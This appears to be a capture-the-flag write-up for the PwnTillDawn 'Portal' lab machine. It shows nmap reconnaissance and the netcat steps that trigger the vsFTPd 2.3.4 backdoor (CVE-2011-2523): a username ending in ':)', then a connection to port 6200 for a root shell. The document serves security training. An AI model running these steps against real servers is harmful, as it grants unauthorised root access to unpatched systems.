






# Portal - PwnTillDawn

## Overview

This machine focuses on exploiting a vulnerable FTP service running an outdated version of **vsFTPd**.
The attack leverages a known backdoor vulnerability that provides remote root access to the target system.

---

# Reconnaissance

The first step was performing service enumeration using `nmap` to identify open ports, running services, and version information.

```bash id="6q1f8n"
nmap -sC -sV -O -p- 10.150.150.12
```

The scan revealed an FTP service running:

```text id="l8tq3m"
vsFTPd 2.3.4
```

This version is publicly known to be vulnerable to **CVE-2011-2523**, a malicious backdoor vulnerability that allows unauthorized remote shell access.

---

## Screenshot - Nmap Scan

<div align="center">
  
  <p><em>Nmap Output Scan</em></p>
</div>

---

# Exploitation

The nmap output highlighted FTP running vsFTPd 2.3.4. Given that outdated FTP services are common attack vectors, I researched this specific version for known vulnerabilities.

---

## Screenshot - Google Search of The Version Vulnerabilities

<div align="center">
  
  <p><em>Google Search of The Version Vulnerabilities</em></p>
</div>

---

The vsFTPd master repository was compromised for the version of 2.3.4, and a malicious actor inserted this backdoor directly into the source code. When the daemon receives a username ending in :), the rogue code executes and binds a root shell to port 6200. After confirming the vulnerable version, the next step was triggering the backdoor service.

Connect to the FTP service:

```bash id="v2mw0f"
nc 10.150.150.12 21
```
---

## Screenshot - Netcat To The Target

<div align="center">
  
  <p><em>Netcat To The Target</em></p>
</div>

---

Send a username ending with the ASCII smiley `:)`.

Example:

```text id="7r9yxs"
USER anonymous:)
```

---

## Screenshot - The Magic Byte

<div align="center">
  
  <p><em>The Magic Byte</em></p>
</div>

---

Any password can be entered afterward.

Once the payload is triggered, a shell becomes available on port `6200`.

Connect to it using:

```bash id="y5f1qd"
nc 10.150.150.12 6200
```

---

## Screenshot - Triggering The Backdoor

<div align="center">
  
  <p><em>The Exploitation</em></p>
</div>

---

# Gaining Access

A successful connection to port `6200` returns a shell running as `root`.

Privilege level verification:

```bash id="j6e2zr"
whoami
id
```

The target immediately grants full administrative access.

---

## Screenshot - Root Shell Access

<div align="center">
  
  <p><em>Root Shell Confirmation</em></p>
</div>

---

# Post-Exploitation

With root access obtained, the remaining task was to enumerate the system further and locate the flag.

Typical post-exploitation steps included:

* Navigating the filesystem
* Checking user directories
* Searching for flag files
* Performing basic system enumeration


After stabilising the shell, I navigated to the root directory and located the flag using standard Linux enumeration commands (ls, cat).

---

## Screenshot - Flag Discovery

<div align="center">
  
  <p><em>Find The Flag</em></p>
</div>

---

# Vulnerability Details

| Category        | Details                  |
| --------------- | ------------------------ |
| Service         | vsFTPd                   |
| Version         | 2.3.4                    |
| CVE             | CVE-2011-2523            |
| Impact          | Remote Command Execution |
| Privilege Level | Root                     |

---

# Lessons Learned

* Version enumeration is critical during reconnaissance.
* Legacy services often contain publicly available exploits.
* Misconfigured or outdated FTP services can lead to complete system compromise.
* Simple vulnerabilities can still result in full administrative access if systems are not patched.

---

# References

* CVE-2011-2523
* vsFTPd 2.3.4 Backdoor Exploit
